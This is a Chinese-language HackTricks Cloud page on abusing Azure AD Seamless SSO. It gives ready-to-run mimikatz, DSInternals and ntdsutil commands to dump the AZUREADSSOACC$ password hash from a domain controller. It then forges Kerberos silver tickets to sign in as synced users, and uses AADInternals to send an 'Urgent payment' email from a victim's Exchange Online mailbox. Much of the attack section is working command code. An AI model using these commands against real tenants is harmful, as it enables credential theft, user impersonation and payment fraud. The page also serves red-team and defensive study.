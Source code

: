 # Az - 无缝SSO

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory无缝单点登录（Azure AD无缝SSO）会在用户使用连接到公司网络的公司设备时**自动登录**用户。启用后，用户无需输入密码即可登录到Azure AD，通常甚至无需输入用户名。此功能使用户可以轻松访问基于云的应用程序，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本上，Azure AD无缝SSO会在用户**位于本地域加入的PC上**时**自动登录**用户。

它受到[**PHS（密码哈希同步）**](phs-password-hash-sync.md)和[**PTA（透传身份验证）**](pta-pass-through-authentication.md)的支持。

桌面SSO使用**Kerberos**进行身份验证。配置后，Azure AD Connect会在本地AD中创建一个名为**AZUREADSSOACC`$`**的计算机帐户。在配置过程中，`AZUREADSSOACC$`帐户的密码会**以明文形式发送到Azure AD**。

**Kerberos票证**使用密码的**NTHash（MD4）**进行加密，Azure AD使用发送的密码来解密票证。

**Azure AD**公开了一个接受Kerberos**票证**的**端点**（https://autologon.microsoftazuread-sso.com）。域加入的计算机浏览器会将票证转发到此端点以进行SSO。

### 本地 -> 云

用户**`AZUREADSSOACC$`的密码永远不会更改**。因此，域管理员可以破坏此帐户的**哈希值**，然后使用它来**创建银票证**以与**任何本地用户同步**连接到Azure：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用哈希值，您现在可以**生成银票据**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要使用银票，应执行以下步骤：

1. **启动浏览器：**应启动Mozilla Firefox。
2. **配置浏览器：**
- 转到**`about:config`**。
- 将[网络.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)的首选项设置为指定的[值](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **访问Web应用程序：**
- 访问与组织的AAD域集成的Web应用程序。一个常见的示例是[Office 365](https://portal.office.com/)。
4. **认证过程：**
- 在登录屏幕上，输入用户名，将密码字段留空。
- 要继续，请按TAB或ENTER键。

{% hint style="success" %}
如果启用了MFA，这不会绕过MFA
{% endhint %}

#### ~~为仅云用户创建Kerberos票证~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果Active Directory管理员可以访问Azure AD Connect，他们可以为任何云用户**设置SID**。这样，Kerberos **票证也可以为仅云用户创建**。唯一的要求是SID是一个正确的[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
现在**Microsoft已阻止更改**仅云管理员用户的SID。\
有关信息，请查看[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### 从本地到云通过基于资源的受限委派 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理计算机帐户（`AZUREADSSOACC$`）在该帐户所在的容器或OU中的人，都可以**配置基于资源的受限委派并访问该帐户**。

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## 参考

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS＆HackTricks周边产品**](https://peass.creator-spring.com)
* 发现我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
